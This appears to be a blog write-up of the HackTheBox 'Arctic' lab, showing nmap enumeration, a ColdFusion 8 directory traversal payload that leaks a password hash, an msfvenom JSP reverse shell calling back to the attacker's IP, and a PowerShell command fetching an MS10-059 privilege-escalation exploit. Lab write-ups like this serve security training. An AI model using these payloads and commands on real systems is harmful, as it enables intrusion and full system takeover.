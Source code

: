 ```yaml
---
layout: post
title: "Arctic"
author: "Emmet Friel"
categories: HackTheBox
image: htb/arctic/arctic.png
---
```


# Introduction

Arctic is an "easy" Windows machine on Hackthebox.


# Reconnaissance & Enumeration

```bash
root@kali:~/Documents/boxes/arctic# nmap -sC -sV -O -oN nmap.nmap 10.10.10.11
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 13:10 BST
Nmap scan report for 10.10.10.11
Host is up (0.027s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.73 seconds
```

The scan shows two MSRPC services and one unknown that nmap couldn’t pick up. Before checking out what it is exactly, I used rpcclient and tried to connect to the two MSRPC services with anonymous credentials:

```bash
rpcclient -U "" -N -p 135 10.10.10.11
rpcclient -U "" -N -p 49154 10.10.10.11
```

Server timed out, no luck. Back to see whats running on port 8500 so navigating to that port on the browser shows the webpage.

| ![image]({{site.github.url}}/assets/img/htb/arctic/index.png) |
| :--: |
| *Webpage running on port 8500* |

Navigating through the directory I came across an Adobe ColdFusion8 admin portal. Note that the webpages take about 20 seconds to load so be patient.

| ![image]({{site.github.url}}/assets/img/htb/arctic/portal.png) |
| :--: |
| *Adobe ColdFusion8 web portal* |

Searching information about Adobe ColdFusion 8, it came out in July 2007 and the latest version is now ColdFusion 2018. ColdFusion uses its own server-side markup language (CFML) and the application itself was wrote in Java but to verify this we can view the HTTP headers using CURL.

| ![image]({{site.github.url}}/assets/img/htb/arctic/httpheaders.png) |
| :--: |
| *Grabbing HTTP headers gives us more information about the server* |

So, ColdFusion is hosted on a JRun Web Server and that runs on JSP, another server-side language. Quick search on ColdFusion8 exploits and the one I used was: Adobe ColdFusion - Directory Traversal which refers to CVE-2010-2861: 
> “Multiple directory traversal vulnerabilities in the administrator console in Adobe ColdFusion 9.0.1 and earlier allow remote attackers to read arbitrary files via the locale parameter to (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2eepackaging/editarchive.cfm, and (5) enter.cfm in CFIDE/administrator/.”

The exploit gives us the ability to read file paths using these parameters! Reading the exploit script it shows a directory that looks like it would show us some password properties: ```http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en```

| ![image]({{site.github.url}}/assets/img/htb/arctic/hash.png) |
| :--: |
| *The directory path returned a hashed password on the webpage* |

The portal shows a hashed password that I could attempt to crack. You can use John the ripper or various websites. I used crackstation.net and it successfully cracked the password which turned out to be **happyday**. Logging into the portal you can see everything about the server from “Settings Summary” under Server Setting tab. The info shows the server is running on Windows Vista and I came across important default file paths.

| ![image]({{site.github.url}}/assets/img/htb/arctic/mappings.png) |
| :--: |
| *Important directory mappings. If we get to upload files to the server we'll use these default file paths* |

On the admin portal there is an option for “Scheduled Tasks” which gives us the ability to execute a task from a remote URL! Lovely. We know the server handles CFML and JSP so we can decide on a web shell (CFML) or a complete shell to the machine (JSP), I went for a complete shell but the CFML webshells are under **/usr/share/webshells/cfm** on Kali. Save the task to a file called shell.jsp using the default file path mappings above so we can execute that file from ```http://10.10.10.11/CFIDE/<file>```

| ![image]({{site.github.url}}/assets/img/htb/arctic/task.png) |
| :--: |
| *Creating a task to download a file from my python webserver* |

Create a new directory to host the reverse shell file using a webserver, create a jsp reverse shell using msfvenom and setup your netcat listener. Go the **http://10.10.10.11:8500/CFIDE/shell.jsp** and then wait for your listener to catch that connection.

```bash
root@kali:~/Documents/boxes/arctic/share# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f raw > shell.jsp
```

| ![image]({{site.github.url}}/assets/img/htb/arctic/shell.png) |
| :--: |
| *Shell access to the victim with user privs* |

# Privilege Escalation

If you run ```systeminfo``` you can see its running on Windows 2008 and there hasn’t been any patches carried out on the machine. Using Windows Exploit Suggester to find an escalation vulnerability: 

```bash
root@kali:~/Documents/boxes/arctic# python windows-exploit-suggester.py --database 2020-04-10-mssb.xls --systeminfo systeminfo.txt --quiet
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

After some trial and error, MS10-059 gave me that root shell :)

```windows
C:\Users\tolis\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.19:8000/MS10-059.exe','C:\Users\tolis\Desktop\exploit.exe')"
```

| ![image]({{site.github.url}}/assets/img/htb/arctic/exploit.png) |
| :--: |
| *Running the exploit* |

![image]({{site.github.url}}/assets/img/htb/arctic/root.png)


Boom, root privelleges.